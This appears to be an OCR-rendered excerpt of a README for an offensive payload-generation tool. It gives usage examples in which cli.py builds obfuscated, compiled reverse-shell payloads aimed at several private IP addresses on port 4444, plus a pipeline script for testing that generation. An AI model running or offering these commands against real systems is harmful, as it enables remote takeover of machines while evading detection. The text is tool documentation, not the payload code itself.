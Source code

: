 ### Getting Help

1. **Check documentation**: `docs/` directory
2. **Review logs**: `logs/` directory
3. **Open issues**: GitHub repository
4. **Community support**: Discord/Forums

### Performance Monitoring

Monitor payload performance:

```bash
# Log statistics
python3 logger.py

# System resources
htop
iotop
```

## Advanced Usage Examples

### Multi-Target Deployment

```bash
#!/bin/bash
# Deploy to multiple targets

targets=("192.168.1.10" "192.168.1.20" "192.168.1.30")
port=4444

for target in "${targets[@]}"; do
    echo "Generating payload for $target"
    python3 cli.py reverse -h $target -p $port --output "payload_$target" --obfuscate --compile --quiet
done
```

### Automated Testing Pipeline

```bash
#!/bin/bash
# Automated payload testing

# Generate payload
python3 cli.py reverse -h 192.168.1.100 -p 4444 --output test_payload --obfuscate

# Test compilation
python3 cli.py reverse -h 192.168.1.100 -p 4444 --output test_payload --compile

# Verify output
if [ -f "dist/test_payload" ]; then
    echo "✅ Payload generated successfully"
else
    echo "❌ Payload generation failed"
    exit 1
fi
```

